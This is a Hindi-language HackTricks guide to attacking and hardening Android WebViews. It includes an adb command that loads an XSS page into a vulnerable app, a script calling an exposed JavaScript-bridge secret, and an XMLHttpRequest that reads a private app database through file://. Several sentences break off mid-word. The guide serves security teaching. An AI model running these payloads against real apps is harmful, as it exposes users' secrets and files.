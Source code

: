 # वेबव्यू हमले

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert) के साथ</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** को पीआर जमा करके और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>

## WebView कॉन्फ़िगरेशन और सुरक्षा पर गाइड

### WebView की कमजोरियों का अवलोकन

Android विकास का एक महत्वपूर्ण पहलू WebViews के सही हैंडलिंग में शामिल है। यह गाइड WebView उपयोग से जुड़े जोखिमों को कम करने के लिए मुख्य कॉन्फ़िगरेशन और सुरक्षा अभ्यासों पर प्रकाश डालता है।

![WebView उदाहरण](<../../.gitbook/assets/image (718).png>)

### **WebViews में फ़ाइल एक्सेस**

डिफ़ॉल्ट रूप से, WebViews फ़ाइल एक्सेस की अनुमति देते हैं। यह कार्य Android API स्तर 3 (कपकेक 1.5) से उपलब्ध `setAllowFileAccess()` मेथड द्वारा नियंत्रित होता है। **android.permission.READ\_EXTERNAL\_STORAGE** अनुमति वाले एप्लिकेशन फ़ाइल URL स्कीम (`file://path/to/file`) का उपयोग करके बाह्य संग्रह से फ़ाइल पढ़ सकते हैं।

#### **पुरानी विशेषताएँ: यूनिवर्सल और URL से फ़ाइल एक्सेस**

* **फ़ाइल URLs से यूनिवर्सल एक्सेस**: यह पुरानी विशेषता फ़ाइल URLs से क्रॉस-ऑरिजिन अनुरोधों की अनुमति देती थी, जिससे संभावित XSS हमलों के कारण एक महत्वपूर्ण सुरक्षा जोखिम उत्पन्न होता था। एप्लिकेशन्स जो Android Jelly Bean और नए लक्ष्यित कर रहे हैं के लिए डिफ़ॉल्ट सेटिंग अक्षम (`false`) है।
* इस सेटिंग की जांच करने के लिए, `getAllowUniversalAccessFromFileURLs()` का उपयोग करें।
* इस सेटिंग को संशोधित करने के लिए, `setAllowUniversalAccessFromFileURLs(boolean)` का उपयोग करें।
* **फ़ाइल URLs से फ़ाइल एक्सेस**: यह विशेषता भी पुरानी है, जो अन्य फ़ाइल स्कीम URLs से सामग्री तक पहुंच को नियंत्रित करती थी। यूनिवर्सल एक्सेस की तरह, इसकी डिफ़ॉल्ट सेटिंग सुरक्षा के लिए अक्षम है।
* जांच करने के लिए `getAllowFileAccessFromFileURLs()` का उपयोग करें और सेट करने के लिए `setAllowFileAccessFromFileURLs(boolean)` का उपयोग करें।

#### **सुरक्षित फ़ाइल लोडिंग**

एक्स
```java
webview.loadUrl("<url here>")
```
### **जावास्क्रिप्ट और इंटेंट स्कीम हैंडलिंग**

* **जावास्क्रिप्ट**: वेबव्यूज में डिफ़ॉल्ट रूप से अक्षम होता है, इसे `setJavaScriptEnabled()` के माध्यम से सक्षम किया जा सकता है। सावधानी बरतना चाहिए क्योंकि जावास्क्रिप्ट को सही सुरक्षा उपायों के बिना सक्षम करना सुरक्षा खतरे उत्पन्न कर सकता है।
* **इंटेंट स्कीम**: वेबव्यूज `intent` स्कीम को हैंडल कर सकते हैं, जो सावधानीपूर्वक प्रबंधित नहीं किया गया हो सकता है, जिससे उत्पादन हो सकता है। एक उदाहरण भेद्यता में एक उदाहरण वेबव्यू पैरामीटर "support\_url" शामिल था जिसका शोध लिया जा सकता था ताकि क्रॉस-साइट स्क्रिप्टिंग (XSS) हमले को क्रियान्वित किया जा सके।

![वल्नरेबल वेबव्यू](<../../.gitbook/assets/image (719).png>)

adb का उपयोग करके शोषण उदाहरण:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### जावास्क्रिप्ट ब्रिज

एंड्रॉइड द्वारा एक सुविधा प्रदान की गई है जो वेबव्यू में **जावास्क्रिप्ट** को **नेटिव एंड्रॉइड ऐप फंक्शन** को आमंत्रित करने की सुविधा प्रदान करती है। इसे `addJavascriptInterface` विधि का उपयोग करके प्राप्त किया जाता है, जो जावास्क्रिप्ट को नेटिव एंड्रॉइड कार्यक्षमताओं के साथ एकीकृत करता है, जिसे _वेबव्यू जावास्क्रिप्ट ब्रिज_ कहा जाता है। सावधानी बरतने की सलाह दी जाती है क्योंकि यह विधि वेबव्यू के सभी पृष्ठों को पंजीकृत जावास्क्रिप्ट इंटरफेस ऑब्ज
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Bridge को WebView में एक इंटरफेस जोड़कर सक्रिय किया जाता है:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* संभावित शोषण JavaScript के माध्यम से, उदाहरण के लिए, एक XSS हमले के माध्यम से उजागरित जावा विधियों को बुलाने की संभावना प्रदान करता है:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* जोखिम को कम करने के लिए, **JavaScript ब्रिज़ उपयोग को सीमित** करें APK के साथ शिप कोड तक और रिमोट स्रोत से JavaScript लोड करने से रोकें। पुराने डिवाइस के लिए, न्यूनतम API स्तर को 17 पर सेट करें।

### प्रतिबिम्ब-आधारित रिमोट कोड निष्पादन (RCE)

* एक दस्तावेज़ीत विधि द्वारा रिफ्लेक्शन के माध्यम से RCE हासिल करने की अनुमति देती है एक विशिष्ट पेलोड को निष्पादित करके। हालांकि, `@JavascriptInterface` एनोटेशन अनधिकृत मेथड एक्सेस को रोकता है, हमले की सतह को सीमित करता है।

### रिमोट डीबगिंग

* **रिमोट डीबगिंग** **Chrome Developer Tools** के साथ संभव है, जो WebView सामग्री के भीतर अंतर्क्रिया और अर्बिट्रे JavaScript निष्पादन को संभव बनाता है।

#### रिमोट डीबगिंग सक्षम करना

* एक एप्लिकेशन के सभी WebViews के लिए रिमोट डीबगिंग को सक्षम किया जा सकता है:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* डिबगिंग को शर्तानुसार सक्रिय करने के लिए आवेदन की डिबगेबल स्थिति पर निर्भर करें:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## विषयात्मक फ़ाइलों को बाहर निकालें

* XMLHttpRequest का उपयोग करके विषयात्मक फ़ाइलों का बाहर निकालने का प्रदर्शन:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## संदर्भ

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
